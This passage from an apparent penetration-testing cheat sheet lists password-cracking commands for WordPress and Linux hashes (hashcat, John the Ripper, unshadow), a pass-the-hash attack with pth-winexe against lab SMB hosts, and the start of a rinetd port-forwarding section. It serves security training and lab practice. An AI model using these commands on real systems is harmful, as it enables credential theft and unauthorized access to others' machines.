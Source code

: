     Wordpress sample hash: `$P$B55D6LjfHDkINU5wF.v2BuuzO0/XPk/`
   
    Wordpress clear text: `test`
   
    Hashcat example cracking Wordpress passwords using rockyou:
   
      `hashcat --force -m 400 -a 0 -o found1.txt --remove wphash.hash /usr/share/wordlists/rockyou.txt`

    -   Sample Hashes  
        [*http://openwall.info/wiki/john/sample-hashes*](http://openwall.info/wiki/john/sample-hashes)

    -   Identify Hashes  
    
        `hash-identifier`

    -   To crack linux hashes you must first unshadow them:  
    
        `unshadow passwd-file.txt shadow-file.txt`

        `unshadow passwd-file.txt shadow-file.txt > unshadowed.txt`

-   John the Ripper - Password Hash Cracking

    -   `john $ip.pwdump`

    -   `john --wordlist=/usr/share/wordlists/rockyou.txt hashes`

    -   `john --rules --wordlist=/usr/share/wordlists/rockyou.txt`

    -   `john --rules --wordlist=/usr/share/wordlists/rockyou.txt unshadowed.txt`

    -   JTR forced descrypt cracking with wordlist  
    
        `john --format=descrypt --wordlist  /usr/share/wordlists/rockyou.txt hash.txt`

    -   JTR forced descrypt brute force cracking  
    
        `john --format=descrypt hash --show`

-   Passing the Hash in Windows

    -   Use Metasploit to exploit one of the SMB servers in the labs.
        Dump the password hashes and attempt a pass-the-hash attack
        against another system:  
          
        `export SMBHASH=aad3b435b51404eeaad3b435b51404ee:6F403D3166024568403A94C3A6561896 `
          
        `pth-winexe -U administrator //$ip cmd`

<span id="_6nmbgmpltwon" class="anchor"><span id="_Toc480741823" class="anchor"></span></span>Networking, Pivoting and Tunneling
================================================================================================================================

-   Port Forwarding - accept traffic on a given IP address and port and
    redirect it to a different IP address and port

    -   `apt-get install rinetd`

    -   `cat /etc/rinetd.conf`

        ```
        # bindadress bindport connectaddress connectport
        w.x.y.z 53 a.b.c.d 80
        ```
